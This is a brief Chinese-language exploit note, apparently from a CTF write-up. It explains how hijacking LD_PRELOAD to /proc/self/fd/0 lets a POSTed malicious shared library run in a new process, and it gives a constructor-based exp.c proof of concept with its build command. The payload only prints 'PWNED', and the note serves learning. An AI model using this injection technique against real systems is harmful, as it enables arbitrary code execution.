 1、能劫持`LD_PRELOAD`

2、能够控制POST内容，会生成落地文件，且是新进程的stdin。对新进程而言，stdin就是：`/proc/self/fd/0`



利用思路：劫持`LD_PRELOAD`为`/proc/self/fd/0`，POST中内容为恶意共享库。



exp.c:

```
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "PWNED: PWNED!\n", 14);
}
//gcc -shared -fPIC ./exp.c -o exp.so
```

![image-20220905113640134](https://raw.githubusercontent.com/wxm-radish/uPic/main/uPic/image-20220905113640134.png)
